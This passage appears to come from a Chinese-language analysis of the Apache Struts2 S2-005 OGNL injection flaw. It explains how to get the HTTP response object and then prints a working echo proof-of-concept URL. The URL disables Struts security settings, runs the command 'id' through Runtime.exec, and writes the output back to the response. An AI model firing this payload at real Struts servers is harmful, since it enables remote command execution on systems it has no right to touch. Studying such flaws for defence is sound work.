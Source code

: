 <img src="pic/struts2_s2-005_6.png">

因为这个里的`newStack`是由原来的`stack`新建的，阅读`OgnlValueStack(ValueStack)`构造方法的实现可知，新建的`newStack`并不会拷贝`stack`的`context`上下文对象的键值对。所以这里换一种方式，使用静态方法`ServletActionContext#getResponse()`去获取`HttpServletResponse`对象，实际上它获取的就是原来的`stack`值栈结构中的`context`上下文对象里的`com.opensymphony.xwork2.dispatcher.HttpServletResponse`。

因此构造可回显PoC如下：

```
/xxx.action?
(a)(%5cu0023_memberAccess.excludeProperties%5cu003d@java.util.Collections@EMPTY_SET)
&(b)(%5cu0023context['xwork.MethodAccessor.denyMethodExecution']%5cu003dfalse)
&(c)(%5cu0023ret%5cu003d@java.lang.Runtime@getRuntime().exec('id'))
&(d)(%5cu0023dis%5cu003dnew%5cu0020java.io.BufferedReader(new%5cu0020java.io.InputStreamReader(%5cu0023ret.getInputStream())))
&(e)(%5cu0023res%5cu003dnew%5cu0020char[20000])
&(f)(%5cu0023dis.read(%5cu0023res))
&(g)(%5cu0023writer%5cu003d@org.apache.struts2.ServletActionContext@getResponse().getWriter())
&(h)(%5cu0023writer.println(new%5cu0020java.lang.String(%5cu0023res)))
&(i)(%5cu0023writer.flush())
&(j)(%5cu0023writer.close())
```
